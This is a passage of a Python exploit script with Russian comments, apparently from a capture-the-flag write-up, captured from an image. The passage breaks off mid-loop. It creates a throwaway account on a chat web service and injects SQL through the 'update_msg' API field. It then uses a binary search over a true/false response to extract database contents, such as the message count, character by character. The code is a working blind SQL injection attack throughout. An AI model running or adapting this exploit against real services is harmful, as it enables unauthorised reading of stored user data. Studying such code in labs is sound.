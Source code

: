 ```python
    )
    response = json.loads(result.text)
    return response["data"] if "data" in response else []


# Основная функция эксплойта
def pwn(url):
    # Создание аккаунта
    username = "enigma-" + os.urandom(8).hex()
    password = base64.urlsafe_b64encode(os.urandom(16)).decode()
    print(username, password)


    # Функция для обновления сообщения
    def update_message(msg_id, text):
        result = requests.post(
            f"{url}/api/v1/update_msg",
            auth=(username, password),
            json={
                "msg_id": msg_id,
                "text": text,
            },
        )
        try:
            return json.loads(result.text)
        except Exception as e:
            print(result.text)
            raise e


    # Функция для непосредственной эксплуатации Blind SQLi
    def blind_injection(msg_id, payload):
        update_message(
            msg_id,
            f"1' WHERE id = $1 AND {payload} --",
        )
        last_message = get_messages(url, username, password, last_chat["id"])[-1]
        update_message(msg_id, f"0")
        return last_message["text"] == "1"


    # Функция бинарного поиска
    def bsearch(msg_id, statement, l=0, r=256):
        while l < r:
            m = (l + r) // 2
            if blind_injection(msg_id, f"({statement}) > {m}"):
                l = m + 1
            else:
                r = m
        return l

    nth = lambda column, i: f"ASCII(RIGHT(LEFT({column}, {i + 1}), 1)) "

    register(url, username, password)
    create_chat(url, username, password)
    last_chat = get_chats(url, username, password)[-1]
    add_message(url, username, password, last_chat["id"], "0")
    last_message = get_messages(url, username, password, last_chat["id"])[-1]
    total_messages = bsearch(last_message["id"], "SELECT COUNT(*) FROM Messages")
    print("Total messages:", total_messages)
    messages = []

    for i in range(total_messages):
```